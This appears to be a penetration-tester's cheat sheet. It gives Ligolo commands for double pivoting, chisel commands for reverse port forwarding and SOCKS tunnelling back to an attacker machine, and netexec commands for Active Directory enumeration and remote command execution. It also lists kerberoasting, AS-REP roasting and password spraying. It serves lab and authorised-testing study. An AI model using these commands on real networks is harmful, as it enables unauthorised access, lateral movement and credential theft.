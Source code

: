 ## Double Pivoting with Ligolo

- Attacker Machine
```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert OR 
./proxy -selfcert -laddr 0.0.0.0:443 (to bypass firewall)
```

- Pivot 1 Machine
```
.\agent.exe -connect <IP>:11601 -ignore-cert
```

- Attacker Machine
```
sudo ip route add x.x.x.x/24 dev ligolo
ligolo >> session
ligolo >> start
ligolo >> listener_add -addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
ligolo >> listener_list
```

- Pivot 2 Machine
```
.\agent.exe -connect <IP>:11601 -ignore-cert
```

- Attacker Machine
```
sudo ip route add x.x.x.x/24 dev ligolo
ligolo >> session
ligolo >> start
```

## Port Forward
- chisel server -p 443 --reverse --socks5 (kali)
- chisel client 192.168.119.248:443 R:3306:localhost:3306 (target)

## Pivoting / Tunneling (do -sT on nmap)
- chisel server -p 443 --reverse --socks5 (kali)
- chisel client 192.168.119.248:443 R:socks (target)

## Methodology
```
netexec smb 10.10.10.10 -u Username -p Password --pass-pol
netexec smb 10.10.10.10 -u Username -p Password --users
netexec ldap 10.10.10.10 -u Username -p Password -M get-desc-users
netexec smb 10.10.10.10 -u Username -p Password --shares
netexec smb 10.129.203.121 -u Username -p Password --spider <share name> --regex .
netexec smb 10.10.10.10 -u Username -p Password -X 'whoami'
netexec rdp 10.10.10.10 -u Username -p Password
netexec winrm 10.10.10.10 -u Username -p Password
netexec wmi 10.10.10.10 -u Username -p Password
```
- enumerate all users, their description, roles, groups and machines using ldapdomaindump and bloodhound
- asrep roasting
- kerberoasting
- get account lockout policy
- try password spray with known or weak passwords
- check anonymous shares on all machines
- check authenticated shares on all machines
- check smb command execution with -X when using netexec